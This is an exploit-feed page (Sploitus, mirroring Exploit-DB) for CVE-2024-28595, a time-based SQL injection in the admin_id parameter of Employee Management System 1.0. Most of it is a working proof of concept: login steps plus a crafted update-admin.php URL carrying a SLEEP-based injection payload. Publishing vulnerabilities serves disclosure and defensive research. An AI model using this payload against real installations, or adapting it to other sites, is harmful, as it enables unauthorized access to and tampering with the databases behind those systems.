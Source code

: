 ```yaml
---
title: Employee Management System 1.0 - &#039;admin_id&#039; SQLi exploit
url: https://sploitus.com/exploit?id=EDB-ID:51911&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-21
fetch_date: 2025-10-04T12:09:01.131036
---
```


# Employee Management System 1.0 - &#039;admin_id&#039; SQLi exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Employee Management System 1.0 - 'admin\_id' SQLi CVE-2024-28595

2024-03-20 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51911
# Exploit Title: Employee Management System 1.0 - 'admin_id' SQLi
# Date: 20-03-2024
# Exploit Author: Shubham Pandey
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
# Version: 1.0
# Tested on: Windows, Linux
# CVE : CVE-2024-28595
# Description: SQL Injection vulnerability in Employee Management System v1.0 allows attackers to run arbitrary SQL commands via the admin_id parameter in update-admin.php.
# POC:
1. Here we go to : http://127.0.0.1/taskmatic/index.php
2. Now login with default Username and Password.
3. Visit the URL:
http://127.0.0.1/taskmatic/update-admin.php?admin_id=3'||(SELECT 0x697a7843
WHERE 5649=5649 AND (SELECT 2097 FROM (SELECT(SLEEP(5)))JzJH))||'
4. Page will load for 5 seconds because of time-based sql injection
# Reference:
https://github.com/shubham-s-pandey/CVE_POC/blob/main/CVE-2024-28595.md
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)